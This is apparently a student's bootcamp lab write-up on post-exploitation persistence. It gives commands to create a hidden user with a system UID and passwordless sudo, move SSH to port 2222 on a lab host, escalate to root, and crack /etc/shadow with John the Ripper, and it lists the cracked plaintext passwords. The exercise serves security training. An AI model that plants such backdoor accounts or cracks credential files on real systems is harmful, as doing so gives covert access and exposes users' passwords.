 ## Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd `

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 28 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 28 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    sudo -lU sysd
    sudo -v
    sudo adduser frank
    sudo deluser frank
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    ![sshd_config](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/06.%20Bash%20Scripting%20and%20Programming/sshd_config.png)
    ```

**Step 3: Testing The Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

    • sysadmin:passw0rd:18387:0:99999:7:::
    • student:Goodluck!:18387:0:99999:7:::
    • mitnik:trustno1:18387:0:99999:7:::
    • babbage:freedom:18387:0:99999:7:::
    • lovelace:dragon:18387:0:99999:7:::
    • stallman:computer:18387:0:99999:7:::
    • turing:lakers:18387:0:99999:7:::
    • sysd:password:18841:0:99999:7:::
---

